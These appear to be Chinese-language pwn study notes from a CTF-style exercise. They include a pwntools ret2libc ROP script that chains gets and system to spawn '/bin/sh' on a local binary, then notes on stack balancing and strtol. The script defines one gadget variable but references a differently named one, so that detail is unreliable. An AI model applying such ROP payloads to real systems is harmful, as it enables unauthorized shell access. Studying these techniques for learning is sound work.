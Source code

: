 ```python
from pwn import *

system_plt = 0x8048490
gets_plt = 0x8048460
bss_buf2_addr = 0x0804A080  # param of gets
pop_1_ret_addr = 0x0804843d  # : pop ebx ; ret
payload = flat(['a'*112, gets_plt, pop_ebx_ret_addr, bss_buf2_addr, system_plt, 'b'*4, bss_buf2_addr])

io = process('./ret2libc2')
io.sendline(payload)
io.sendline(b'/bin/sh')
io.interactive()
```

##### 平衡栈帧

> 多次调用函数，多参数

<img src="D:\github\pwn\pwn_study\images\more_params_stack_balance.png" alt="image-20220604023639862" style="zoom:50%;" />

#### Q3

##### 补充1 strtol

> `strtol`函数的用法

解释

```C
Definition:
		C库函数 long int strtol(const char *str, char **endptr, int base) 把参数 str 所指向的字符串根据给定的 base 		 转换为一个长整数（类型为 long int 型），base 必须介于 2 和 36（包含）之间，或者是特殊值 0。
Parameters:
		str -- 要转换为长整数的字符串。
		endptr -- 对类型为 char* 的对象的引用，其值由函数设置为 str 中数值后的下一个字符。
		base -- 基数，必须介于 2 和 36（包含）之间，或者是特殊值 0。
```

例子

```C
#include <stdio.h>
#include <stdlib.h>
int main() {
   char str[30] = "2030300 This is test";
   char *ptr;
   long ret;

   ret = strtol(str, &ptr, 10);
   printf("数字（无符号长整数）是 %ld\n", ret);
   printf("字符串部分是 |%s|", ptr);

   return 0;
}
```
